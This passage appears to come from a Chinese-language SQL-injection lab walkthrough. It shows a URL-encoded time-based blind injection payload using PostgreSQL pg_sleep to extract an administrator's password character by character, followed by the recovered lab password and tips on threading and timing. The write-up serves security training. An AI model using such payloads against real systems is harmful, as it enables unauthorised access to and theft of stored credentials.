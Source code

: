 这里还是使用之前的方式进行爆破。需要注意，时间比较长，而且如果把延迟的时间降低，可能会存在不准确的情况，误差比较大，这里还需要设置单线程，否则也会出现误报的情况。

```
payload：'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='a')+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--
```

```
密码：73zzf59k8gssdrv2nr8i
```

![img](assets/%E5%9B%BE%E7%89%87%2071.png) 

#### 2.15.4.1. **接受响应时间**

这里可以通过调整列显示接受响应时间。
